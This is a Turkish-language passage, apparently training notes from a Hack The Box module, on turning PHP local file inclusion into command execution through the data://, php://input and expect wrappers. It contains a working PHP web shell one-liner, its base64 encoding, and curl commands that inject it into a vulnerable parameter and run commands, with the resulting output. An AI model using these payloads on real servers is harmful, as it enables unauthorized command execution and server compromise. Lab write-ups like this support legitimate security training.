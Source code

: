 Dolayısıyla, ilk adımımız aşağıdaki gibi temel bir PHP web shell'ini base64 kodlamak olacaktır:

```shell-session
M1R4CKCK@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Şimdi, base64 stringini URL ile kodlayabilir ve ardından data `://text/plain;base64`, ile data wrapper'a aktarabiliriz. Son olarak, `&cmd=<COMMAND>` ile komutları web shell'e aktarabiliriz:

![Pasted image 20241118015018.png](/img/user/resimler/Pasted%20image%2020241118015018.png)

Aynı saldırı için aşağıdaki gibi cURL de kullanabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## **Input**  

`Data` wrapper'a benzer şekilde, input wrapper da dışarıdan girdi eklemek ve PHP kodunu çalıştırmak için kullanılabilir. `Data` wrapper ile arasındaki fark, girdimizi `input` wrapper'a bir POST isteğinin verisi olarak aktarmamızdır. Dolayısıyla, bu saldırının çalışması için savunmasız parametrenin POST isteklerini kabul etmesi gerekir. Son olarak, `input` wrapper da daha önce belirtildiği gibi `allow_url_include` ayarına bağlıdır.

Daha önceki saldırımızı input wrapper ile tekrarlamak için, savunmasız URL'ye bir POST isteği gönderebilir ve web shell'imizi POST verisi olarak ekleyebiliriz. Bir komut çalıştırmak için, daha önceki saldırımızda yaptığımız gibi bunu bir GET parametresi olarak geçebiliriz.

```shell-session
M1R4CKCK@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Not:** Komutumuzu bir GET isteği olarak iletmek için, savunmasız işlevin GET isteğini de kabul etmesi gerekir (yani `$_REQUEST` kullanın). Yalnızca POST isteklerini kabul ediyorsa, komutumuzu dinamik bir web shell yerine doğrudan PHP kodumuza koyabiliriz (örneğin `<\?php system('id')?>`)

## **Expect**  

Son olarak, komutları URL akışları üzerinden doğrudan çalıştırmamızı sağlayan [expect](“https://www.php.net/manual/en/wrappers.expect.php”) wrapper'ı kullanabiliriz. Expect, daha önce kullandığımız web shell'lere çok benzer şekilde çalışır, ancak komutları yürütmek için tasarlandığından bir web shell sağlamanıza gerek yoktur.  

Bununla birlikte, expect bir external wrapper'dır, bu nedenle back-end sunucusuna manuel olarak yüklenmesi ve etkinleştirilmesi gerekir, ancak bazı web uygulamaları temel fonksiyonları için ona güvenir, bu nedenle belirli durumlarda onu bulabiliriz. Daha önce `allow_url_include` ile yaptığımız gibi back-end sunucusunda yüklü olup olmadığını belirleyebiliriz, ancak bunun yerine `expect` için `grep` yaparız ve yüklü ve etkinse aşağıdakileri elde ederiz:
